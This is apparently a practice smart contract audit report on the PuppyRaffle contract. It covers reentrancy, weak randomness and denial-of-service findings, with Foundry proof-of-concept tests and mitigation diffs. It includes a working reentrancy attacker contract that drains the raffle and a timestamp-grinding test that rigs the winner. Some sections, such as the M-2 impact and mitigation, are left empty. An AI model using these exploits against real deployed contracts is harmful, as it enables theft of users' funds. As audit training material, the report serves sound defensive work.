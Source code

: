 ### [H-1] Invoking `PuppyRaffle::refund` allows active users to execute a reentrancy attack on the contract due to the lack of Check-Effects-Interactions (CEI) pattern implementation. This vulnerability occurs when returning the `entranceFee` to the user, enabling a potential reentrancy exploit. 

**Description:** A malicious active user can repeatedly reenter the `PuppyRaffle::refund` function, draining the contract of all funds. This vulnerability exists because the user's `entranceFee` is refunded before updating the state of their `entranceFee`.

``` solidity 
        payable(msg.sender).sendValue(entranceFee);
        // refunding the entranceFee before updating the state 
-->     players[playerIndex] = address(0);

```


**Impact:** Reentering into the contract can result in a loss of funds, affecting end users monetarily and damaging the protocol's finances and reputation. 

**Proof of Concept:** The active threat actor can successfully reenter into `PuppyRaffle::refund` by creating a malicious contract stealing all funds:

<details>
<summary>Malicious Contract</summary>

``` solidity 
        contract Reentrancy {
            PuppyRaffle puppyRaffle;   

            uint256 entranceFee;
            uint256 attackerIndex;

            constructor(PuppyRaffle _puppyRaffle) {
                puppyRaffle = _puppyRaffle;
                entranceFee = puppyRaffle.entranceFee();
            }

            receive() external payable {
                if (address(puppyRaffle).balance >= entranceFee) {
                puppyRaffle.refund(attackerIndex);    
                }
            }

            function attack() public payable {
                address[] memory players = new address[](1);
                players[0] = address(this);

                // enter the raffle 
                puppyRaffle.enterRaffle{value: entranceFee}(players);

                // get the player index
                attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
                
                // call refund function 
                // as refund is called it will invoke the receive function inside this contract 
                puppyRaffle.refund(attackerIndex);        
            }
        }

```


</details>

<details>
<summary>PoC</summary>

``` solidity 
        function testReentrancy() public {
            // creating players
            address[] memory players = new address[](4);
            players[0] = address(5);
            players[1] = address(6);
            players[2] = address(7);
            players[3] = address(8);
            
            // entering the raffle 
            puppyRaffle.enterRaffle{value: entranceFee * players.length}(players);

            // creating new attacker contract 
            Reentrancy attackerContract = new Reentrancy(puppyRaffle);
            address badPlayer = makeAddr("badPlayer");
            deal(badPlayer, 1 ether);

            uint256 startingAttackerbalance = address(attackerContract).balance;
            uint256 startingContractBalancce = address(puppyRaffle).balance;

            // reentrancy exe
            vm.prank(badPlayer);
            attackerContract.attack{value: entranceFee}();

            // logging
            console.log("starting attacker contract balance: %s", startingAttackerbalance);
            console.log("starting contract balance: %s", startingContractBalancce);

            console.log("ending attacker contract balance: %s", address(attackerContract).balance);
            console.log("ending contract balance: %s", address(puppyRaffle).balance);
        }

```


</details>

**Recommended Mitigation:** There are three primary options to resolve reentrancy from occuring within `PuppyRaffle::refund`. 

 


<summary>1. Implement Check-Effects-Interactions (CEI) pattern:</summary>

``` diff 
        function refund(uint256 playerIndex) public {
            address playerAddress = players[playerIndex];
            require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
            require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

+           players[playerIndex] = address(0);
            payable(msg.sender).sendValue(entranceFee);

-           players[playerIndex] = address(0);
            emit RaffleRefunded(playerAddress);
        }

```




 
<summary>2. Implement a locking mechanism to PuppyRaffle::refund:</summary>

``` diff 
+        error PuppyRaffle__lockedFunction();
+        bool locked = false;

        function refund(uint256 playerIndex) public {
+           if (locked) { revert PuppyRaffle__lockedFunction(); }
+           locked = true;
            address playerAddress = players[playerIndex];
            require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
            require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

            payable(msg.sender).sendValue(entranceFee);
            players[playerIndex] = address(0);
            emit RaffleRefunded(playerAddress);

+           // Unlock the function after execution
+           locked = false;
        }


```



<summary>3. Leveraging existing libraries from trust sources like OpenZeppelin's ReentrancyGuard:</summary>

``` diff 
+        function refund(uint256 playerIndex) public  nonReentrant {
            address playerAddress = players[playerIndex];
            require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
            require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

            payable(msg.sender).sendValue(entranceFee);
            players[playerIndex] = address(0);
            emit RaffleRefunded(playerAddress);
        }

```




### [H-2] Insecure randomness in `PuppyRaffle::selectWinner` allows for winner manipulation. By exploiting vulnerable randomness when selecting the winner on-chain via block.timestamp, an active user can predict and potentially influence who will be the next winner by gathering the correct parameters.

**Description:** Using on-chain randomization introduces predictability when selecting the winner. 

``` solidity 
        // @vuln: usess insecure randomness 
        uint256 winnerIndex =
            uint256(keccak256(abi.encodePacked(msg.sender, block.timestamp, block.difficulty))) % players.length;

```


**Impact:** The winner can be manipulated due the usage of `block.timestamp` and `block.difficulty`. Allowing, for unfair loss of funds. 


**Proof of Concept:** Relying on `block.timestamp` & `block.difficulty` introduces the risk of predictability if an attacker controls transaction timing or if they are a miner.

Using `msg.sender` allows the caller to mine for favorable addresses, compromising the system's randomness.

The following PoC simulates a raffle with 100 participants. The goal is to manipulate the outcome so that address 26 becomes the designated winner. By determining the precise `block.timestamp` and applying it to the winner-selection equation, we can call `PuppyRaffle::selectWinner` and confirm that address 26 indeed wins the raffle. 
```
    Logs:
    Starting balance of address 26 balance: 0
    Malicious Timestamp: 86413
    Expected winner index: 26
    Address of expected winner: 0x000000000000000000000000000000000000001a
    Number of attempts to find the expected winner: 12
    Actual Winner: 0x000000000000000000000000000000000000001a
    Final balance of address 26: 80000000000000000000

```

<details>
<summary>PoC</summary>

``` solidity 

    function test100Randomness() public {
        address expectedWinner;
        uint256 numberOfAttempts = 0;
        

        // creating players
        uint256 numberOfPlayers = 100; 
        address[] memory players = new address[](numberOfPlayers);
        // create 100 unique address
        for (uint256 i; i < players.length; i++) {
            players[i] = address(payable(i));
        }

        uint256 playerLength = players.length;

      console.log("Starting balance of address 26: %s", address(payable(26)).balance);
        
        // entering the raffle
        puppyRaffle.enterRaffle{value: entranceFee * players.length}(players);

        // calc the end time
        uint256 raffleEndTime = puppyRaffle.raffleStartTime() + puppyRaffle.raffleDuration();

        for (uint256 i = 0; i < 1000; i++) {
            // used to discover the number of attempts to discover the winner
            numberOfAttempts++;

            // with each iteration, the testTimestamp is incremented by 1 + i
            uint256 testTimestamp = raffleEndTime + 1 + i;
            // updating the current timestamp with each iteration
            vm.warp(testTimestamp); 

            // discovered timestamp is applied to the equation 
            uint256 expectedWinnerIndex = uint256(keccak256(abi.encodePacked(address(this), testTimestamp, block.difficulty))) % playerLength;

            // get the address of the expected winner 
            expectedWinner = players[expectedWinnerIndex];

            // making sure the expected winner matches the desired address to win!!!
            if (expectedWinner == players[26]) {
                console.log("Malicious Timestamp: %s", testTimestamp);
                console.log("Expected winner index: %s", expectedWinnerIndex);
                console.log("Address of expected winner: %s", expectedWinner);
                console.log("Number of attempts to find the expected winner: %s", numberOfAttempts);

                vm.prank(address(this));
                puppyRaffle.selectWinner();

                address actualWinner = puppyRaffle.previousWinner();
                console.log("Actual Winner: %s", actualWinner);

                assertEq(actualWinner, expectedWinner, "Address 26 did not win");
                break; 
            }
        }
        console.log("Final balance of address 26: %s", address(expectedWinner).balance);
    }



```


</details>

**Recommended Mitigation:** The most popular method to mitigate weak randomness is to offload the computation off-chain and leverage Chainlink VRF (Verifiable Random Function). 

Chainlink VRF allows for the output of the randomization to be mathatically safe via RNG (Random Number Generator). 


<details>
<summary>PoC Pending...</summary>

``` diff 


```
</details>











---


### [M-1] Looping through players array to check for duplicates in `PuppyRaffle::enterRaffle` causes a Denial of Service Attack (DoS), incrementing gas costs for futher entrants. 

**Description:** The `PuppyRaffle::enterRaffler` function loops through the `PuppyRaffle::players` array to check for duplicate address entries. If a duplicate is found, the function reverts. However, there's no limit set on the `PuppyRaffle::players` array size. This causes gas costs to increase as more players are added, potentially rendering the function inoperable due to significant gas increases. 
``` solidity
        // @vuln: check if the duplicate check will cause a DOS | more than likly high gas consumption
        // Check for duplicates
        for (uint256 i = 0; i < players.length - 1; i++) {
            for (uint256 j = i + 1; j < players.length; j++) {
                require(players[i] != players[j], "PuppyRaffle: Duplicate player");
            }
        }
```

**Impact:** The gas costs for raffle entrants will significantly increase as more players join the raffle. This discourages later users from entering and causes a rush at the start of a raffle to be among the first entrants in the queue. 

**Proof of Concept:** If we have 2 sets of 100 players enter, the gas costs will be as such:
- 1st 100 players: ~6252047
- 2nd 100 players: ~18068137
This more than 3x more expensive for the second 100 players


<details>
<summary>PoC</summary>

``` solidity 
    function testEnterRaffleDoS() public {
            // starting gas price to 1
            vm.txGasPrice(1);

            uint256 playersNum = 100;
            address[] memory players = new address[](playersNum);
            // this will alow us to create unique address
            for (uint256 i; i < playersNum; i++) {
                players[i] = address(i);
            }

            uint256 initialGas = gasleft();
            puppyRaffle.enterRaffle{value: entranceFee * playersNum}(players);
            uint256 postGas = gasleft();

            uint256 gasForTheFirst100 = (initialGas - postGas) * tx.gasprice;
            console.log("Post Gas 100: %s", gasForTheFirst100);


            address[] memory playersTwo = new address[](playersNum);
            // this will alow us to create unique address
            for (uint256 i; i < playersNum; i++) {
                playersTwo[i] = address(i + playersNum);
            }


            uint256 initialGas200 = gasleft();
            puppyRaffle.enterRaffle{value: entranceFee * playersNum}(playersTwo);
            uint256 postGas200 = gasleft();

            uint256 gasForTheFirst200 = (initialGas200 - postGas200) * tx.gasprice;
            console.log("Post Gas 200: %s", gasForTheFirst200);

            assert(gasForTheFirst100 < gasForTheFirst200);

        }
```

</details>


**Recommended Mitigation:** Consider using a mapping to check duplicates. This would allow you to check for duplicates in constant time, rather than linear time. You could have each raffle have a uint256 id, and the mapping would be a player address mapped to the raffle Id.

``` diff
+    mapping(address => uint256) public addressToRaffleId;
+    uint256 public raffleId = 0;
    .
    .
    .
    function enterRaffle(address[] memory newPlayers) public payable {
        require(msg.value == entranceFee * newPlayers.length, "PuppyRaffle: Must send enough to enter raffle");
        for (uint256 i = 0; i < newPlayers.length; i++) {
            players.push(newPlayers[i]);
+            addressToRaffleId[newPlayers[i]] = raffleId;
        }

-        // Check for duplicates
+       // Check for duplicates only from the new players
+       for (uint256 i = 0; i < newPlayers.length; i++) {
+          require(addressToRaffleId[newPlayers[i]] != raffleId, "PuppyRaffle: Duplicate player");
+       }
-        for (uint256 i = 0; i < players.length; i++) {
-            for (uint256 j = i + 1; j < players.length; j++) {
-                require(players[i] != players[j], "PuppyRaffle: Duplicate player");
-            }
-        }
        emit RaffleEnter(newPlayers);
    }
.
.
.
    function selectWinner() external {
+       raffleId = raffleId + 1;
        require(block.timestamp >= raffleStartTime + raffleDuration, "PuppyRaffle: Raffle not over");

```

### [M-2] 

**Description:** DOS `PuppyRaffle::withdrawFees` 

``` solidity 
        // @vuln: strict equality is specified causing a potential DoS
        require(address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!");

```


**Impact:** 

**Proof of Concept:** 

<details>
<summary>PoC</summary>

``` solidity 
    function testFeeDos() public returns(uint256){
        // create users 
        address[] memory players = new address[](4);
        players[0] = address(payable(1));
        players[1] = address(payable(2));
        players[2] = address(payable(3));
        players[3] = address(payable(4));

        // enter the users to the raffle 
        puppyRaffle.enterRaffle{value: entranceFee * players.length}(players);

        // warp time and block to the end of the raffle 
        uint256 endTime = puppyRaffle.raffleStartTime() + puppyRaffle.raffleDuration();
        vm.warp(endTime);
        vm.roll(endTime + 1);

        // selecting the winner 
        puppyRaffle.selectWinner();

        uint256 fees = puppyRaffle.totalFees();      

        vm.deal(address(puppyRaffle), address(puppyRaffle).balance + 1 ether);

        vm.expectRevert("PuppyRaffle: There are currently players active!");
        puppyRaffle.withdrawFees();

        console.log("The fee balance     : %s", fees);
        console.log("The contract balance: %s", address(puppyRaffle).balance);
    }

```


</details>

**Recommended Mitigation:** 

``` diff

``` 


---
